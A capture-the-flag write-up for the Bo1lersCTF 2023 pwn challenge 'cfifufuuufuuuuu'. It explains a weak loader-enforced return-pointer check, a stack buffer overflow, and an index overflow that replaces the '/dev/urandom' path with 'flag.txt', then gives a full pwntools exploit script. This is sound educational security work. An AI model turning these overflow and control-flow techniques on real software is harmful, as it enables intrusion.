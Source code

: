 ```yaml
---
title: "[Pwn] cfifufuuufuuuuu [Bo1lersCTF 2023]"
date: 2023-03-28 21:24:00
---
```


# Description

A tiny program, protected by some Python code. The flag is in: ./flag.txt

[files](https://github.com/b01lers/b01lers-ctf-2023-public/tree/main/pwn/cfifufuuufuuuuu)

# Analysis

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


## loader

my analysis database [s.bndb](./s.bndb)

This binary is run by a python loaders. python loader is acting like a debugger.

Everytime a breakpoint instruction (`0xcc`) being executed. python loader will check next byte after rip. And determine what to do next depend on that byte.

for example, if next byte is `0x48`. it will replace some register

![image](./2023-03-28_214738.png)

otherwise, if the next byte is equal to some other bytes. it will do a canary check manually

![image](./2023-03-28_214958.png)

## vulnerability 1 - canary check failed

it did have canary check. The canary values are actually saved return pointers. However, when comparing return pointers, it only check if return pointer exists in the stack. So, we can still modify the saved return pointer to the caller's saved return pointer.

## vulnerability 2 - overwriting

Bascially, the binary contains 2 main function. `encrypt` and `decrypt`

`decrypt` function calls a function which read all bytes until it meet a new line character (`\n`). This is a trivial buffer overflow we can use to modify return pointer.

using this vulnerability with the previous one, we can run `main` function again.

since `_start` function is essentially a loop if return value of `main` is not equal to 1

![image](./2023-03-28_220216.png)

## vulnerability 3 - random generation

encrypt function generating random values by reading `/dev/urandom`. And store using input is .bss section.

it also use a global variable to record index of the data array. everytime we call `encrypt`, the index will increase by one.

![image](./2023-03-28_215944.png)

normally it's okay, because we are only executing `encrypt` function once.

however, since we can run `encrypt` function multiple time. we increase the index value until we overwrite `/dev/urandom` string.


## conclusion

we overwrite `/dev/urandom`, and the program will print out the flag for us!



# Exploit

```
from pwn import *

exe = ELF("s")
# exe_rop = ROP(exe)
# libc = ELF("libc.so.6")
# ld = ELF("./ld-2.27.so")

context.binary = exe
# context.log_level = 'DEBUG'

def wait(*msg):
    if args.WAIT:
        input(" ".join(map(str,msg)))

def log_print(*msg):
    log.info(" ".join(map(str,msg)))
lp = log_print
def start():
    if args.LOCAL:
        r = process(["python","./loader.py"])
        r.recvuntil(b"pid=")
        pid = int(r.recvuntil(b";\n",drop=True))
        print("pid of the binary is %d" % pid)
        if args.R2:
            util.proc.wait_for_debugger(pid)
    else:
        r = remote("ctf.b01lers.com", 5215)
    return r


io = start()
flagstring = b"flag.txt".ljust(0x10,b"\x00")
nonesense = b'\x00'*0x10
payload = flat({
    0x0: b'\x00'*0x10, # make all 0, easier for xor
    0x38:[
        0x00004005e2, # _start if eax=1, call main again 
    ]
})+b'\n'
# filled up data
for i in range(8):
    io.sendafter(b"Your data to encrypt?:\n",flagstring)
    io.sendafter(b"Your data to decrypt?:\n",nonesense)
    io.sendafter(b"Your key?:\n",payload)
# overflow /dev/urandom
io.sendafter(b"Your data to encrypt?:\n",flagstring)
io.recvuntil(b"Your key:\n")
lp("flag: ", io.recvuntil(b"\n",drop=True))
io.close()
```
